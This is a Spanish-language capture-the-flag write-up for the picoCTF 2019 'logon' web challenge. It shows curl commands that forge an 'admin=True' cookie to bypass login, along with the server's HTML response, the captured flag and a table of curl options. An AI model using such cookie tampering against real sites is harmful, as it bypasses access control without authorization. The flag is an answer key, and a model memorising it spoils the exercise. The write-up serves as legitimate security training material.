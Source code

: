 # logon

## Objetivo

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

## Hints

Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución

### Solución 1
```
jessy_vl-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=jess; password=hola; admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>jessy_vl-picoctf@webshell:~$ 

jessy_vl-picoctf@webshell:~$ curl -L -s https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie:admin=True" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
jessy_vl-picoctf@webshell:~$ 

```

## Flag

picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}

## Notas adicionales

| Comando | Descripción |
|------------|-------------|
| curl | Sirve para verificar la conectividad a las URL y para transferir los datos   |
| -H |  Permite el envio de encabezados  |
| -s |  Es un modo silencioso |
| -L |  Es una riderección |

Permitio el uso de una extención para poder ver los cookies

## Referencias

[HTTP](https://developer.mozilla.org/es/docs/Web/HTTP)
[HTTP HEADERS](https://developer.mozilla.org/es/docs/Web/HTTP/Headers)
